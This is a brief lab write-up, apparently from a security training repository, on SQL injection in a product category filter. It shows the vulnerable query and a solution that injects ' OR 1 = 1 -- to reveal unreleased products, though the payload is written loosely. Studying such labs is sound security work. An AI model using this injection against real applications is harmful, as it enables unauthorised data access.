



# Lab-01 
 

## SQL Injection Vulnerability In WHERE Clause Allowing Retrieval Of Hidden Data

### Problem 

- This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

- ``` SQL_Query
   SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
  ```

  To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products.

### Solution

- GOto product Category  filter 



- Then Change the Query 

- ``` SQL_Query
  SELECT * FROM products WHERE category=' OR 1 = 1 --
```

 
- Lab is Solved 
